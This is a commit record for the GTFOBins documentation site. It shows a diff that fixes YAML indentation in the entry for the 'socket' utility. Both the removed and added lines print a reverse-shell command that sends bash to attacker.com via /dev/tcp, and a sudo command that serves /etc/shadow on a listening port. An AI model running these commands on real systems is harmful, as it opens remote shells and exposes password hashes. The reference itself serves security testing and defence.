

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socket.md, in a window 1280 px wide. Shown: the top 636 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
fixed syntax error in socket.md

```diff
--- a/_gtfobins/socket.md
+++ b/_gtfobins/socket.md
@@ -2,14 +2,13 @@
 description: Note that any shells are non-interactive. A reverse shell or similar is required to gain an interactive system shell.
 functions:
   reverse-shell:
-   - code: |
-     LPORT=12345
-     RPORT=11111
-     RHOST=attacker.com
-     socket -wslqvp "bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'" $LPORT
+    - code: |
+        LPORT=12345
+        RPORT=11111
+        RHOST=attacker.com
+        socket -wslqvp "bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'" $LPORT
   sudo:
-   - description: This listens on a local port of your choice. Connect to it using nc, curl, or similar tool to get command execution.
-     code: |
-      LPORT=12345
-      sudo socket -wslqvp "cat /etc/shadow " $LPORT
+    - code: |
+        LPORT=12345
+        sudo socket -wslqvp "cat /etc/shadow " $LPORT
 ---
```
